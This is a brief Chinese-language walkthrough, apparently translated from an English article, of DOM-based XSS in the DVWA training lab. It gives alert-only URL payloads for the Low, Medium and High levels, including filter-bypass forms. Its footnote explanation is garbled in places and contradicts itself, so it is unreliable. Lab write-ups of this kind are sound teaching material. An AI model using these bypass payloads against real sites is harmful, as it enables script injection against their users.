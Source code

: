 ## 在DVWA中理解基于DOM的XSS（绕过所有安全性） [^1]

### Low

`//localhost:81/dvwa/vulnerabilities/xss_d/?default=English`

`//localhost:81/dvwa/vulnerabilities/xss_d/?default=English<script>alert("hack");</script>`

### Medium

` //localhost:81/dvwa/vulnerabilities/xss_d/?default=English>/opttion></select><body onload=alert("XSS")>`

### High

`//localhost:81/dvwa/vulnerabilities/xss_d/?default=English#<script>alert("you have been hacked");</script>`

[原文](https://www.hackingarticles.in/understanding-dom-based-xss-dvwa-bypass-security/)

---

[^1]: 基于DOM的跨站点脚本是一种漏洞，它出现在文档对象模型中而不是html页面中。攻击者不允许在用户的网站上执行恶意脚本，虽然在本地机器上的URL，它与反映和XSS完全不同，因为在这种攻击中，开发人员无法在HTML源代码和HTML响应中找到恶意脚本，它可以在执行时观察到。这可能使其比其他攻击更隐蔽，并且正在阅读页面主体的WAF或其他保护措施不会看到任何恶意内容。